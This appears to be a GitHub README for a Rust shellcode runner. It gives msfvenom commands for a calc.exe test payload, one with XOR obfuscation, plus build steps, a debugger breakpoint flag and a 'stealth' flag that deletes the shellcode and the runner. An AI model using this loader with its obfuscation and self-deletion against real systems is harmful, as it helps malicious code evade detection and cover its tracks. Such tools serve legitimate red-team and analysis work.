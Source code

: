 # rs-shellcode

A shellcode runner write in Rust.

# how to use it

Install [rustup](https://rustup.rs/).

```sh
rustup default
```

Use msfvenom generate shellcode for test.

```sh
msfvenom -p windows/x64/exec CMD=calc.exe  --platform win -f raw -o calc64.raw
```

XOR obfuscated payload.
```sh
msfvenom --platform windows --arch x64  -p windows/x64/exec CMD=calc.exe -f raw --encrypt xor --encrypt-key "\x55"
```

Build:

```sh
cargo build --release
```

On linux using [cross](https://github.com/cross-rs/cross):
```sh
cross build -r --target=x86_64-pc-windows-gnu
```

Usage:
```
Usage: rs_shellcode [OPTIONS] --file <file>

Options:
  -f, --file <file>      shellcode path
  -b, --breakpoint       set breakpoint in debugger
  -o, --offset <offset>  shellcode offset
  -x, --xor <xor>        deobfuscate with XOR encoding
  -s, --stealth          removes shell code and itself
  -h, --help             Print help
  -V, --version          Print version
```

Run:

```sh
./target/debug/rs_shellcode.exe -f <SHELLCODE_PATH>
```

When your shellcode not start at offset 0, you can specify the offset use `-o`:

```sh
./target/debug/rs_shellcode.exe -f <SHELLCODE_PATH> -o 0x30
```


Run with breakpoint flag (`-b`):

```sh
./target/debug/rs_shellcode.exe -f <SHELLCODE_PATH> -b
```

use this flag, you can break just before your shellcode in the debugger, which will make your life easier.

![breakpoint in windbg](./breakpoint.png)